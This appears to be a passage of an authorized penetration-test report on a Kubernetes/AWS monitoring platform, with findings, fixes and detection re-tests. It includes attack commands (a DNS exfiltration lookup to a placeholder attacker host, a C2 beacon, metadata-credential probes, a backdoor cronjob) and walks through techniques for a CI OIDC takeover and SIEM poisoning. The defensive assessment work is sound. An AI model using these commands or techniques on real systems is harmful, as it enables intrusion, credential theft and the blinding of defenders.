







> **Authorization.** This is an authorized, owner-operated assessment of assets in
> AWS account `997916278486`. Nothing outside that account was touched. Container
> escapes were proven to proof-of-concept depth only; persistence was tagged and
> removed. It is written in the first person ("I") on purpose — you should see the
> system the way an attacker does.

\newpage

# Executive summary

I attacked this platform three times, each time pretending to know less than the
time before:

- **Black box** — I start as a stranger on the internet. No login, no documents.
- **Gray box** — I have one foothold: a single pod inside the cluster and a normal user.
- **White box** — I can read everything: configs, software versions, IAM, secrets layout.

**The headline is uncomfortable:** the single worst hole needed the *least*
knowledge. As a black-box stranger, I could open a pull request, have it run on the
project's own build machine, steal its cloud login token, and become **AWS account
administrator** — without ever touching the cluster the whole security stack is
watching. That is finding **F-09 (Critical)**.

Once inside as a gray-box attacker, the picture flipped: the in-cluster defenses
(Tetragon, Cilium, Wazuh) **caught or blocked most of what I tried** — hacking tools
were force-killed, the host-escape route was already patched, and the cloud "ID
badge" and Kubernetes API were walled off. But three real gaps let me operate
unseen: smuggling data out over DNS, command-and-control traffic, and planting a
hidden scheduled job that raised no alarm.

The white-box review explained *why*: a public Kubernetes API, a node "ID badge"
reachable from pods, and a single security-monitoring box that, if it falls, blinds
everything.

**Every finding below has since been fixed or has a fix in hand** — the proof
screenshots in the gray-box section are from the *re-test* showing the alarms now
firing.

### Findings at a glance

| ID | Finding | Box | Severity | Status |
|----|---------|-----|----------|--------|
| **F-09** | Pull request → OIDC → AWS admin takeover | Black | **Critical** | Fixed |
| **F-10** | Kubernetes control-plane actions not alarmed | Gray | High | Fixed |
| **F-08** | Network sensors blind to C2 / exfil (detect-only) | Gray | High | Detection added; prevention scoped |
| **F-01** | "Kill hacking tools" rule was inert | Gray | High | Fixed |
| **F-03** | Whole sensor fleet offline (agent deadlock) | Gray | High | Fixed |
| **F-05** | DNS-based data smuggling invisible | Gray | Medium | Fixed |
| **F-07** | Free lateral movement inside the namespace | Gray | Medium | Open (by design; documented) |
| **F-02** | Tool-detection noisy + incomplete | Gray | Medium | Partially fixed |
| **R1** | Kubernetes API public to the whole internet | White | High | Open |
| **R2** | Pods can reach the node's cloud "ID badge" | White | Medium | Open |
| **F-06** | Pod → K8s API / node badge blocked | Gray | *Pass* | Strength |

\newpage

# How the three attacks relate

{width=100%}

Read it top to bottom by how much the attacker knows. The rest of the report walks
each lane in order, with the exact commands and the evidence.

\newpage

# 1. Black box — "I'm a stranger on the internet"

**What I had:** the public GitHub repository name and whatever is exposed to the
internet. No credentials. No documents.

## 1.1 Recon — what's even reachable?

From outside, the only things that answer are:

- A **self-hosted GitHub Actions runner** on a public IP (`35.158.235.200`). It has
  **no open inbound ports** — so port-scanning and SSH brute force go nowhere
  (a dead end I confirmed, not assumed).
- The **Kubernetes API server**, published to `0.0.0.0/0` (finding **R1**). Reachable,
  but it wants a valid token I don't have — yet.

The runner having no open ports is the tell: the way in is **not** a port scan, it's
the **build pipeline** itself.

## 1.2 The keystone — a pull request that becomes AWS admin (F-09, Critical)

The runner builds the project by assuming an AWS role, `GitHubActionsDeployRole`.
Two facts make this catastrophic together:

1. That role has **`AdministratorAccess`** — full control of the AWS account.
2. Its trust rule allowed **any** workflow from the repo to assume it:

   ```
   token.actions.githubusercontent.com:sub  StringLike
     repo:JaamesBond/ultra-advanced-threat-monitoring-system:*
   ```

   The `:*` means *any branch and any pull request* — including one opened by an
   outsider.

**The attack, end to end:**

1. Fork the repo, open a pull request that adds a workflow step which runs on the
   self-hosted runner.
2. When my job runs, the runner hands it a short-lived **OIDC token**. My step reads
   it and calls `sts:AssumeRoleWithWebIdentity` on `GitHubActionsDeployRole`.
3. I now hold **administrator** credentials for the account — Secrets Manager, S3
   state, KMS, IAM, everything.

**Why it's so dangerous:** to every monitoring tool this looks like a *normal CI
deploy*. CloudTrail and GuardDuty see a routine `AssumeRole`. The whole eBPF stack
(Tetragon/Cilium/Falco) never sees it at all — it happened on the build machine, not
in the cluster. This is the blind spot the entire architecture shares.

**Negative control (what works):** I also tried to assume the role from outside
GitHub, as a normal AWS principal. That was correctly **denied** and logged — so the
trust *condition* works; it was just scoped far too wide.

> **Verdict: EXPLOITABLE, detection MISS. Fix F-09.** Now closed: the trust is scoped
> to `ref:refs/heads/main` only, and pull-request builds use a separate **read-only**
> role. Detail and proof in the gray-box re-test and the remediation appendix.

\newpage

# 2. Gray box — "I have one pod"

**What I had:** a foothold pod (`pentest-netshoot`) in the `nomad-oasis` namespace,
and a normal Kubernetes user. This is the realistic "assume breach" position — one
workload is compromised. Now I try to escalate, move, and steal.

This is where the platform earns its name. Here is each move and what happened.

## 2.1 Run hacking tools (F-01)

```
nmap -Pn -p80 10.30.10.137      # map a neighbour
nc   -zw2 10.30.10.61 5432      # poke the database port
```

Both processes were **force-killed the instant they started** (exit code `137`).
Tetragon spots the binary and sends SIGKILL before it can run.

> **Note:** during the *first* run this rule was **inert** — the tools ran to
> completion (the rule matched the calling shell, not the tool). That was finding
> **F-01 (High)**. It is now fixed; the screenshot below is the re-test.

{width=88%}

## 2.2 Break out of the container to the host

The interesting escape this year is a `runc` bug (CVE-2025-31133) that turns a pod
into host root. I fingerprinted the node: **`runc 1.3.4`** — the version where this
is **already patched**. The escape route is closed.

> **Verdict: PASS (patched).** A useful negative control — it proves patching is
> actually keeping pace here. (One caveat for the white-box section: Tetragon
> *excludes* `/usr/sbin/runc` from monitoring to cut noise, so if an *unpatched* runc
> ever shipped, the escape could ride that exclusion quietly. Worth a guard rule.)

## 2.3 Steal the cloud "ID badge" and the Kubernetes keys (F-06 — a strength)

The classic next move is to grab the node's IAM credentials from the metadata
service, or read secrets straight from the Kubernetes API:

```
curl http://169.254.169.254/latest/meta-data/    # node ID badge  -> HTTP 000
curl https://kubernetes.default.svc/api/v1/secrets # all secrets   -> HTTP 000
```

Both returned **000 — no answer at all.** Cilium forwards the first packet and then
nothing comes back; the pod simply cannot reach the metadata service or the API
server. Two of the most common escalation paths are **dead** from here.

> **Verdict: BLOCKED (F-06, a genuine strength).** Caveat in white box: the metadata
> block is partly incidental, not an explicit rule — see R2.

## 2.4 Move sideways to the database, auth, and search tiers (F-07)

From my one pod I connected straight to the namespace's crown jewels:

```
postgresql:5432   keycloak:8080   elasticsearch:9200   -> all reachable
```

Nothing stopped me. By design, pods in `nomad-oasis` may talk to each other, so one
compromised pod can reach the database, the login server, and the search engine
directly. Hubble (the network map) *shows* the flows, but does not block them.

{width=92%}

> **Verdict: lateral movement OPEN (F-07, Medium).** Accept-with-eyes-open if
> intended; tighten with per-workload network rules. Visible, not prevented.

## 2.5 Smuggle data out through DNS (F-05)

Data can be hidden *inside* DNS lookups — a long, gibberish name carries the stolen
bytes. I sent one:

```
nslookup <base64-chunk>.exfil.attacker-c2.example.net 172.20.0.10
```

At test time this was **invisible** to the network sensor (Zeek): pod DNS takes a
path that bypasses Zeek's tap, so the smuggling left no record. That was finding
**F-05 (Medium)**. After the fix — recording lookups at CoreDNS and alarming on long,
gibberish names — the same query now lights up the SIEM:

{width=88%}

## 2.6 Phone home (command-and-control) (F-08)

```
curl --max-time 3 http://1.1.1.1:4444     # beacon to a bad server on an odd port
```

Two things happened. **Cilium blocked the call** (odd-port egress is dropped — it
timed out, HTTP 000). And the attempt now also raises an alarm:

{width=88%}

The honest limit (finding **F-08, High**): the network sensors are **detect-only and
mostly blind to content** — traffic is encrypted (WireGuard) before the tap, and C2
hidden inside *normal* web traffic (port 443) would not be caught by signatures. The
real prevention here is the egress allow-listing Cilium already does for odd ports;
extending it to 443 is scoped, not yet done.

## 2.7 Plant a hidden scheduled job (persistence) (F-10)

```
kubectl create cronjob backdoor --image=busybox --schedule='*/5 * * * *' ...
```

At test time this produced **zero alarms** — the Kubernetes audit log was being
written but never reached the SIEM. A hidden recurring job (or a permission change,
or a secret read) was undetectable. That was finding **F-10 (High)**. After the fix
(forwarding the audit log into Wazuh), the same action now alarms:

{width=88%}

## 2.8 Gray-box scorecard

| Move | At test time | Now |
|------|--------------|-----|
| Run hacking tools | Ran (F-01) | Killed (137) |
| Host escape (runc) | Patched | Patched |
| Steal node badge / K8s secrets | Blocked (F-06) | Blocked |
| Lateral to DB/auth/search | Open (F-07) | Open (by design) |
| DNS data smuggling | Invisible (F-05) | Alarmed (100721) |
| Phone home (C2) | Blocked, unseen (F-08) | Blocked + alarmed (100710) |
| Hidden scheduled job | Unseen (F-10) | Alarmed (100402) |

\newpage

# 3. White box — "I can read everything"

**What I had:** full read access to the architecture, every config, software
versions, IAM policies, and the secrets layout. I don't attack here — I look for the
weak spots an attacker would *want* to find. Five stood out.

## 3.1 The Kubernetes API is public to the whole internet (R1, High)

```
endpointPublicAccess = true
publicAccessCidrs    = ["0.0.0.0/0"]
```

The cluster's control plane answers from anywhere. It still demands a valid token, so
it is not an instant breach — but it widens the attack surface enormously and pairs
badly with the black-box token theft above. The project notes say "public until the
install is finished" — the install **is** finished. **Lock it to the admin/runner
addresses, or make it private.**

## 3.2 Pods can reach the node's cloud "ID badge" (R2, Medium)

The worker nodes allow the metadata service two network hops
(`HttpPutResponseHopLimit = 2`), which means a pod *can* reach `169.254.169.254` and
read the node's IAM role. The only reason 2.3 failed is a network path quirk, not an
explicit rule. (By contrast, the Wazuh and MISP boxes correctly use hop limit 1.)
**Set the worker nodes to hop limit 1**, turning an incidental block into a real one.

## 3.3 The network sensors are structurally blind (F-08 root cause)

Pod-to-pod traffic is encrypted with WireGuard *before* it reaches the Suricata/Zeek
tap, so those sensors see only metadata, never content. They are also **detect-only**
(no inline blocking). The eBPF tools (Tetragon) caught my activity only because I
*ran a program* (`nslookup`, `curl`); a C2 implant living inside an
already-running process, sending traffic over normal port 443, would be **invisible**.
This is the real limit of the stack — worth stating plainly rather than discovering
in an incident.

## 3.4 One security box watches everything — and is a single point of failure (GAP-004)

All telemetry lands on a single all-in-one Wazuh machine. During the engagement that
machine's agents fell into an enrollment deadlock and the **entire sensor layer went
blind** (finding **F-03**) until recovered. One box down = no detection anywhere.
Plus the agent→manager channel is **unencrypted** (GAP-001) and the threat-intel sync
uses `curl -k` with certificate checks off (GAP-002) — both man-in-the-middle risks.

## 3.5 Smaller items

- **R3** — a security group allows ports 22/80 from the whole internet on an unused
  test instance (no public IP today, so latent). Delete or scope it.
- **R5 / doc drift** — a Splunk-SOAR instance is running that the docs say is *not*
  provisioned, plus an undocumented test box. Reconcile reality and documentation;
  unknown assets are unmonitored assets.
- **No admission control (GAP-003)** — nothing stops an unsigned or privileged
  container image from being deployed.

\newpage

# 4. Network IDS layer (Suricata) — separately validated

A second operator ran a parallel test focused on the **network intrusion-detection
layer** (Suricata custom rules, surfaced in Wazuh as rule **100500**). This catches
*loud, volumetric, network-shaped* attacks — the kind the eBPF stack does not
specialise in — so it complements the rest of this report rather than overlapping it.
All traffic came from the same foothold pod (`10.30.11.127`) on **9 June** (before the
fixes above). The screenshots below are the real captured alerts.

> **Scope note.** Suricata here detects **traffic *patterns*** (packet rates, scan
> signatures, SYN/FIN flags), which it can see even though it is blind to *encrypted
> L7 content* (finding F-08). Different detection type, different blind spot — both
> statements are true.

## 4.1 Port scan (T1046)

`nmap -sS -O 10.30.11.49` from the pod. Suricata custom signature **9000008
"CUSTOM Port Scan Detected"** fired (SYN+FIN probe + 20 SYN/5s).

{width=84%}

## 4.2 HTTP login brute force (T1110)

Directory-busting then `POST /login` in a loop. Signature **9000003 "CUSTOM HTTP
Login Brute Force"** fired on the POST flood.

{width=84%}

## 4.3 Denial of service — SYN / UDP / ICMP flood (T1498)

Three `nping` floods. Each fired its own high-severity signature (SID 9000004…),
simultaneously:

{width=70%}

{width=70%}

{width=70%}

## 4.4 Control-plane detection rules — coverage check (not a live breach)

The same effort also confirmed that the **AWS CloudTrail rules** load and fire on
representative control-plane events:

- **100302** — security group opened to `0.0.0.0/0` by a non-pipeline identity.
- **100303** — IAM role/policy enumeration.
- **100307** — GuardDuty detector disabled (`DeleteDetector`).

> **Honesty note — and an important correction from Op-4 (§5).** These rules were
> validated against **simulated / representative log events**, not a real intrusion
> (the giveaways were placeholder values like `detectorId: abc123def456`, user
> `john-external`). They confirm the *rules exist and match the right event shapes*.
> **But the later control-plane engagement (Op-4) proved these rules never fire on
> real events:** the Wazuh `aws-s3` CloudTrail/GuardDuty/VPC-Flow ingestion wodle
> **does not run at all** (duplicate `aws-s3` blocks — only the EKS-audit one
> executes; 0 bucket-analysis cycles ever, 0 `1003xx` alerts in the live index). See
> **F-16**. So 100302 (SG change) and 100305/100307 (SSM / GuardDuty-disable) are
> *loaded but inert against reality.* Also corrected: the earlier "R4 — GuardDuty is
> org-managed, a member account can't disable it" claim is **wrong** — the detector
> is **standalone** (no delegated admin), so an account-admin compromise can disable
> it, and the disable wouldn't alert (because of F-16). Net: **rule authoring = good;
> the CloudTrail detection layer is currently non-functional.**

\newpage

# 5. Control plane — attacking the brain (Op-4)

Operations 1–4 above were **data-plane-skewed**: almost every live attack ran from a
pod inside bc-prd against bc-prd targets. The **control plane — "the brain": the Wazuh
SIEM, the MISP threat-intel server, the Splunk SOAR box, and the GitHub runner — was
never attacked as a set of services.** A real adversary wants the brain: own the
SIEM/SOAR and you blind the defenders and tamper with the evidence. Op-4 (2026-06-10,
owner-authorised, intrusive PoC, every artifact tagged `PURPLE-TEST-` and removed in
teardown) answered the four questions the owner asked.

{width=100%}

## 5.1 Is Splunk SOAR responding? (Q1)

**Yes — and that itself was undocumented.** The architecture docs said Splunk SOAR was
"commented out / not provisioned / replaced by Shuffle." In reality `splunk-soar-ec2`
(t3.xlarge, `i-0b48cc6ea79a91a29`) is **running and Terraform-managed**: Splunk SOAR
**8.5.0.248**, web UI on `nginx:8443` (HTTP 302 login redirect — login page captured),
PostgreSQL 15 + pgbouncer + RabbitMQ behind it.

It **is** wired to Wazuh — it has ingested **929 alert "containers", every one labelled
`wazuh_alert`** (newest the same day), so Wazuh feeds *both* Shuffle (via `integratord`)
*and* Splunk SOAR (via the `custom-splunk-soar.py` integration; despite a "replace me"
comment on the hook URL, data is demonstrably flowing). **But SOAR is a purely passive
sink:** 0 response assets, 0 active playbooks, and — the killer number — **0 playbook
runs and 0 actions ever executed.** It collects every alert and has never *done*
anything with one. That is GAP-006 (detection without response) made concrete on the
very box meant to provide the response.

Worse, the **admin console opens with default/weak credentials** (`soar_local_admin`) —
I reached the authenticated dashboard and its full 929-event Wazuh feed (screenshot).
That hands an attacker a live map of exactly what the defenders can see, plus control of
the box whose role can invoke any Lambda. The dangerous part is that IAM: the instance role
`splunk-soar-ec2-role` has **`lambda:InvokeFunction` / `InvokeAsync` on `Resource: "*"`**.
Running as that role *on the box* (no admin creds), I enumerated all 24 account Lambdas
— including the destructive incident-response functions `nukeIAMPerms`,
`quarantineEC2`, `removeEC2FromEKS` — and invoked a benign `PURPLE-TEST` canary
(HTTP 200). A SOAR-box compromise therefore **weaponises the IR automation** against
arbitrary targets (quarantine real instances, strip admins' IAM = DoS + lockout).
**Finding F-14.** One genuine strength: the SOAR box has **no inbound security-group
rules** — it is reachable only via SSM, not from bc-prd or the internet (a PASS).

{width=92%}

## 5.2 Can a pod reach the brain? Data → control (Q2)

**Partly yes.** From a single compromised pod (`pentest-netshoot`, pinned to a healthy
bc-prd node) the peering link `pcx-0f2e…` makes parts of the brain directly reachable:

| Control-plane port (from a bc-prd pod) | Result | Meaning |
|---|---|---|
| Wazuh **1514** (agent ingest) | **OPEN** | the SIEM-poisoning channel |
| Wazuh **1515** (agent enrollment) | **OPEN** | open, no-password enrollment |
| Wazuh 9200 (indexer) / 55000 (API) | closed | SG correctly scopes these to bc-ctrl — PASS |
| MISP **443** | **OPEN** | the IOC-poisoning channel |
| SOAR 443 / 8443 | closed | no inbound SG — PASS |

So the SG design is mostly sound (indexer/API/SOAR are correctly off-limits from prd),
but the two ports that *are* open are the two that matter for tampering. **Finding F-15.**

**SIEM poisoning (F-12).** Walk the attack in order. (1) **Open enrollment.** Wazuh's
authd on 1515 is `use_password=no`, no `authd.pass`, `use_source_ip=no` — fully open, and
reachable from bc-prd. From the unauthenticated pod I enrolled rogue agents repeatedly
(`PURPLE-TEST-op4-rogue` → ID 013 via the raw TLS protocol; `…-forge`/`…-forge4` via
`agent-auth`), each receiving a **valid agent key with no credentials**. (2) **The rogue
